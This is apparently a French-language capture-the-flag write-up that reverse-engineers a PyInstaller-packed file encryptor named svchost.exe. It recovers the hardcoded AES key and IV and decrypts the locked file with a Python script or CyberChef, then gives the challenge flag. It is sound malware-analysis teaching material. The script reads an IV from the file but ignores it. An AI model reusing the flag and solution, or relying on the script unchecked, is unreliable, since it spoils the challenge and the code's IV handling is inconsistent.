    e = AES.new(k, AES.MODE_CBC, i + v + c + o + g + f)
# WARNING: Decompyle incomplete
```


On ajoute `case Pyc::RERAISE_A:`

Certains opcode ont un `_A` en plus, comme on le voit dans certaines issues

On a deux warnings mais la fonction est à peu près décompilé :

```bash
> ./pycdc ../svchost.exe_pyinstxtractor/main.pyc > ../main.py
Warning: Stack history is not empty!
Warning: block stack is not empty!
```


### Déchiffrement

#### **Solution 1 - Algo python**

On remarque que l’IV est écrit au début du fichier : `fn.write_bytes(i + v + c + o + g + f)`

```python
import base64 as b64
import binascii as bnx
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from pathlib import Path as p

def uf_1():
    x = ['b64', 'en', 'code', 'he', 'xl', 'ify', 'unh', 'ex', 'lify']
    return [''.join(part) for part in zip(x[::3], x[1::3], x[2::3])]

def k0():
    f = uf_1()
    k1 = getattr(b64, f[0])(b'PySup')
    k2 = getattr(b64, f[0])(b'3r')
    k3 = getattr(b64, f[0])(b'K3y')
    k = getattr(bnx, f[1])(k1 + k2 + k3)
    kh = getattr(bnx, f[1])(k)
    kh_r = kh[::-1]
    fk = kh_r

    return getattr(bnx, f[2])(fk[::-1])

def d0(fn, k):
    cs = 64 * 1024
    i = b'\xac' * 2
    v = b'\x00' * 1
    c = b'\x1f' * 3
    o = b'\xb5' * 5
    f = b'\xc8' * 1
    g = b'\xd2' * 4

    e = AES.new(k, AES.MODE_CBC, i+v+c+o+g+f)

    fn_path = p(fn)

    # Open the encrypted file for reading in binary mode
    with open(fn_path, 'rb') as infile:
        # Read the IV from the beginning of the file
        iv = infile.read(AES.block_size)

        # Read the rest of the file in chunks
        data = infile.read(cs)

        # Create a new file path for the decrypted file
        decrypted_fn = fn_path.with_suffix('.dec')

        # Open the decrypted file for writing in binary mode
        with open(decrypted_fn, 'wb') as outfile:
            while data:
                # Decrypt the chunk using the cipher object
                decrypted_chunk = e.decrypt(data)

                # Unpad the decrypted chunk
                unpadded_chunk = unpad(decrypted_chunk, AES.block_size)

                # Write the decrypted chunk to the file
                outfile.write(unpadded_chunk)

                # Read the next chunk
                data = infile.read(cs)

    print(f"Decrypted file saved as: {decrypted_fn}")


def d2(key):
    # For Linux
    d0("/path/to/file.enc", key)
    # For Windows
    # d0(r"C:\path\to\file.enc", key)

def main():
    key = k0()
    d2(key)

if __name__ == '__main__':
    main()
```


**Ressources :**

* <https://github.com/anchal27sri/AES-file-encryption/blob/master/AES.py>
* <https://www.novixys.com/blog/using-aes-encryption-decryption-python-pycrypto/#7_Decrypting_File_Using_AES>


---

**Solution 2 - Cyberchef**

Il est possible de déchiffrer le fichier avec cyberchef.

On récupère la clé et l’IV :

```bash
print(creation_key())
i = b'\xac\xac'
v = b'\x00'
c = b'\x1f\x1f\x1f'
o = b'\xb5\xb5\xb5\xb5\xb5'
f = b'\xc8'
g = b'\xd2\xd2\xd2\xd2'
print(i + v + c + o + g + f)
```

On ouvre le fichier avec cyberchef, on utilise la fonction AES Decrypt et on entre la clé et l’IV

 


**Flag :** `MCTF{Py7h0n_Cryp70_10ck3r_15_345Y_70_r3v3r53}`